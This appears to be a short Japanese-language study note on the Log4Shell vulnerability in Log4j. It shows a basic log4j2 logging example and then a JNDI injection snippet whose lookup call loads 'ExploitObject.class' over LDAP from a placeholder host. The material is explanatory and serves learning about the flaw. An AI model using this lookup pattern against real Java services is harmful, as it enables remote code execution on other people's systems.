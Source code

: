 (調査時間: 10分)

<details><summary>!!Spoiler Alert!!</summary></details>


## (Java) Log4shell
### Log4shellとは
Javaで最もポピュラーなログライブラリの一つであるLog4jで発見されたJNDIインジェクションによる任意コード実行が可能な脆弱性。
ログとして出力するデータ内にユーザの入力値が含まれる場合に発生し、攻撃の容易さとAmazon AWS、Cloudflare、iCloud、JavaバージョンのMinecraft、Steamなど影響範囲が相当なものであったことで有名。


### log4j2の利用方法
```java
package org.example;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;


public class Test {
    
  private static final Logger logger = LogManager.getLogger(Test.class);
    
  public static void main(String[] args) {
    logger.info("LOG TEST"); 
  }
}
```

出力結果
```
[2023-08-05 23:49:04.984], INFO , main, org.example.Test, LOG TEST
```


### JNDIインジェクションの例
context.lookup（）等の引数にユーザ入力値がそのまま入ると外部ファイルからJavaクラスをロードすることができ任意コード実行ができる

JNDIインジェクションのexploitについては以下も参考
https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf

```Java
import javax.naming.InitialContext
import javax.naming.NamingException;


public class Test {
        
  public static void main(String[] args) throws NamingException {
    InitialContext context = new InitialContext();
    context.lookup("ldap://{HOST}/ExploitObject.class")
  }
}
```
